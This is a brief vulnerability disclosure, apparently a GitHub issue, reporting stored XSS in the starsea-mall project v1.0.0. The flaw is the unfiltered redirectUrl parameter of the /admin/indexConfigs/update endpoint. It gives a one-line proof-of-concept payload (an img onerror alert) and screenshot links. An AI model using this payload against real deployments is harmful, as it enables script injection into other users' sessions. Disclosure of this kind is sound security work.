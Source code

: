 target:https://github.com/StarSea99/starsea-mall 
version:v1.0.0

Vulnerability details: 
The system backend /admin/indexConfigs/update interface does not filter the redirectUrl parameter, allowingattackers to insert malicious JS files and create XSS vulnerabilities
![image](https://github.com/user-attachments/assets/b863374f-14ff-4db7-88d8-768b7437117b)
poc:<img/src=1 onerror=alert(1)>
![image](https://github.com/user-attachments/assets/7d1313f0-5d26-4c47-8d96-ea3b286bf497)
success
![image](https://github.com/user-attachments/assets/6562e725-6df0-4c88-b0fa-10e210d8e60a)
